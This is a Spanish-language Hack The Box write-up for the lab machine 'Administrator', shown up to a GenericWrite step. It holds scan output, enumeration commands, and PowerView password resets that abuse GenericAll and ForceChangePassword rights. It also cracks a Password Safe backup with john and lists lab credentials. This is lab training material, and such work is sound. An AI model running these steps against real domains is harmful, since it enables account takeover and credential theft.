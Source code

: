 ```yaml
---
description: >-
  Writeup de la máquina de dificultad media Administrator de la página https://hackthebox.eu
title: Hack The Box - Administrator | (Difficulty Medium) - Windows
date: 2025-01-29
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, active directory, medium, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/9d60c834-3318-4bfd-910e-a6c5febfcba0
---
```


## Useful Skills

* Enumeración DNS (dig)
* RPC Enumeration (rpcclient)
* SMB Enumeration (netexec)
* LDAP Enumeration (netexec + ldapsearch)
* BloodHound analysis
* Abusing GenericAll permission
* Abusing Force Change Password permission
* Cracking password Backup.psafe3 (pwsafe2john)
* Abusing GenericWrite Permission
* 

> En este escenario, comenzaremos con las siguientes credenciales (usuario: olivia, contraseña: ichliebedich)
{: .prompt-info }

## Enumeration

### TCP Scan

 ```bash
rustscan -a 10.10.11.42 --ulimit 5000 -g
10.10.11.42 -> [21,53,88,135,139,389,445,464,593,9389,3268,3269,47001,49664,49665,49666,49667,49668,60306,60293,60286,60281]
```

```bash
nmap -p21,53,88,135,139,389,445,464,593,9389,3268,3269,47001,49664,49665,49666,49667,49668,60306,60293,60286,60281 -sCV 10.10.11.42 -oN tcpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 15:37 CET
Nmap scan report for 10.10.11.42
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-29 21:37:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
60281/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60286/tcp open  msrpc         Microsoft Windows RPC
60293/tcp open  msrpc         Microsoft Windows RPC
60306/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s
| smb2-time: 
|   date: 2025-01-29T21:38:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.83 seconds
```

### UDP Scan

 ```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 10.10.11.42 -oN udpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 15:39 CET
Nmap scan report for 10.10.11.42
Host is up (0.035s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
53/udp    open   domain
88/udp    open   kerberos-sec
123/udp   open   ntp
21710/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

> Esta máquina sigue activa en HackTheBox. Una vez que se retire, este artículo se publicará para acceso público, de acuerdo con la política de HackTheBox sobre la publicación de contenido de su plataforma.
{: .prompt-danger }
<!--
> Hay que añadir el dominio administrator.htb en el archivo de configuración /etc/hosts para que se pueda resolver el nombre de dominio a la dirección IP 10.10.11.42
{: .prompt-tip }

### DNS Enumeration

Intento obtener información adicional sobre el dominio a través de consultas DNS con dig, donde intento obtener los registros NS, MX, CNAME entre otros, posteriormente, trato de realizar una transferencia de zona, pero esta resulta fallida.

```bash
dig administrator.htb@10.10.11.42 axfr

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> administrator.htb@10.10.11.42 axfr
;; global options: +cmd
; Transfer failed.
```

### SMB Enumeration

Utilizo NetExec para realizar un escaneo de SMB y obtener información clave como el sistema operativo, nombre del servidor, dominio, si la firma smb está habilita y si la versión antigua SMBv1 está activada o desactivada.

```bash
netexec smb 10.10.11.42
SMB  10.10.11.42 445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC)(domain:administrator.htb)  (signing:True)  (SMBv1:False)
```

Utilizo NetExec para enumerar los recursos compartidos del sistema a través del protocolo SMB, ejecutando el comando con el usuario Olivia y la contraseña ichliebedich y así poder identificar qué recursos pueden ser accedidos. No obtengo nada interesante.

```bash
netexec smb 10.10.11.42 -u 'olivia' -p 'ichliebedich' --shares
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share 
```

### RPC Enumeration

Haciendo uso de las credenciales válidas, intento enumerar los usuarios usando la herramienta rpcclient. Obtengo con éxito los nombres de usuarios del sistema.

```bash
rpcclient -U administrator.htb/olivia%ichliebedich 10.10.11.42 -c enumdomusers | grep -oP '\[.*?\]' | tr -d '[]' | grep -v 0x
Administrator
Guest
krbtgt
olivia
michael
benjamin
emily
ethan
alexander
emma
```

> Sabiendo los usuarios del sistema, una de las posibles vías de ataque a considerar sería el AS-REP Roasting
{: .prompt-tip }

### LDAP Enumeration

Utilizo NetExec para verificar si las credenciales (olivia:ichliebedich) son válidas para conectarme al servicio LDAP.

```bash
netexec ldap 10.10.11.42 -u 'olivia' -p 'ichliebedich'
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\olivia:ichliebedich 
```

Haciendo uso de las credenciales válidas (olivia:ichliebedich), intento enumerar los usuarios del sistema utilizando la herramienta ldapsearch, este método es una alternativa a la enumeración de usuarios mediante rpcclient.

```bash
ldapsearch "objectclass=user" -x -H ldap://10.10.11.42 -b "dc=administrator,dc=htb" -D "olivia@administrator.htb" -w "ichliebedich" | grep sAMAccountName | cut -d : -f 2
 Administrator
 Guest
 DC$
 krbtgt
 olivia
 michael
 benjamin
 emily
 ethan
 alexander
 emma
```

## Gain access

Haciendo uso de las credenciales válidas (olivia:ichliebedich), intento verificar con NetExec si puedo acceder al sistema mediante el servicio WinRM. Obtengo un (Pwned!) lo que indica que las credenciales proporcionadas son válidas

```bash
netexec winrm 10.10.11.42 -u 'olivia' -p 'ichliebedich'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

Accedo al sistema con evil-winrm como el usuario olivia

```bash
evil-winrm -i 10.10.11.42 -u olivia -p ichliebedich
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents>
```

## Privilege escalation

Utilizo BloodHound para identificar puntos débiles en la configuración de Active Directory que me puedan permitir escalar mis privilegios

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 07S
```

```bash
neo4j console
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2025-01-29 16:57:42.929+0000 INFO  Starting...
2025-01-29 16:57:43.272+0000 INFO  This instance is ServerId{c79aff68} (c79aff68-d2d1-422e-b680-b0424c4ea5de)
2025-01-29 16:57:44.300+0000 INFO  ======== Neo4j 4.4.16 ========
2025-01-29 16:57:45.316+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2025-01-29 16:57:45.316+0000 INFO  Updating the initial password in component 'security-users'
2025-01-29 16:57:45.520+0000 INFO  Bolt enabled on localhost:7687.
2025-01-29 16:57:46.208+0000 INFO  Remote interface available at http://localhost:7474/
2025-01-29 16:57:46.212+0000 INFO  id: DFBA69E397E88AF1BC8E85BBEEFD400D7D976EDAECF75F3A77F903544778EE72
2025-01-29 16:57:46.213+0000 INFO  name: system
2025-01-29 16:57:46.213+0000 INFO  creationDate: 2025-01-29T16:57:12.71Z
2025-01-29 16:57:46.213+0000 INFO  Started.
```

En BloodHound observo que Olivia tiene permisos GenericAll sobre Michael, este permiso permite un control total sobre el objeto, por ejemplo cambiar la contraseña del usuario.

![imagen](https://github.com/user-attachments/assets/1e4b0ae8-f075-4a55-b24c-daa986bb57ed)

Descargo e importo PowerView.ps1

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> upload PowerView.ps1
                                        
Info: Uploading /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1 to C:\Users\olivia\Documents\BloodHound\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> Import-Module .\PowerView.ps1
```

Defino la contraseña que voy a asignar el usuario michael

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Asigno la contraseña definida $SecPassword al usuario michael

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> Set-DomainUserPassword -Identity michael -AccountPassword $SecPassword
```

Inicio como el usuario michael con la contraseña que he establecido en este caso Password123!

```bash
evil-winrm -i 10.10.11.42 -u michael -p 'Password123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\michael\Documents>
```

En BloodHound observo que Michael tiene el permiso Force Change Password sobre Michael, este permiso puede forzar que al otro usuario a cambiar su contraseña en el próximo inicio de sesión

![imagen](https://github.com/user-attachments/assets/7be164a7-ce08-4c35-b107-e9f26a844716)

Descargo e importo PowerView.ps1

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> upload PowerView.ps1
                                        
Info: Uploading /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1 to C:\Users\michael\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> Import-Module .\PowerView.ps1
```

Defino la contraseña que voy a asignar el usuario benjamin

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> $Password = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force```
```

Asigno la contraseña definida $SecPassword al usuario benjamin

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> Set-DomainUserPassword -Identity benjamin -AccountPassword $Password
```

Observo que al intentar acceder por winrm con el usuario Benjamin no puedo, por lo que accedo por FTP con las credenciales (Benjamin:Password1234!) y observo un archivo Backup.psafe3 el cual traigo a mi máquina local.

```bash
ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:juanca): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49980|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||49982|)
125 Data connection already open; Transfer starting.
100% |***************************************|   952        7.18 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (7.17 KiB/s)
```

El archivo Backup.psafe3 pertenece al gestor de contraseñas Password Safe, es un gestor de contraseñas de código abierto para el sistema operativo Windows que utiliza un cifrado AES a 256 bits.

* [Download Password Safe](https://sourceforge.net/projects/passwordsafe/)

Obtengo el hash del archivo Backup.psafe3 con pwsafe2john

```bash
pwsafe2john Backup.psafe3 > hash
```

Utilizo John The Ripper para intentar crackear la contraseña de Backup.psafe3, consigo obtener las contraseña la cual es tekieromucho

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2025-01-29 19:34) 3.225g/s 26425p/s 26425c/s 26425C/s newzealand..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Abro el archivo Backup.psafe3 con el gestor de contraseñas Password Safe e introduzco la contraseña tekieromucho

![imagen](https://github.com/user-attachments/assets/7f9bdd6d-1259-41ad-97ad-1753a6ba1a75)

![imagen](https://github.com/user-attachments/assets/733fd421-aa41-4e64-b00e-8f6b38b2aa94)

```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Accedo como emily al sistma con evil-winrm

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents>
```

En BloodHound observo que Emily tiene el permiso GenericWrite sobre Ethan, este permiso puede ser explotado para actualizar atributos como permisos de cuenta, o incluso ejecutar la escalada de privilegios modificando scripts de inicio de sesión o directores de servicio.

![imagen](https://github.com/user-attachments/assets/850405bf-dddb-4e96-9a09-0055958aec32)
-->
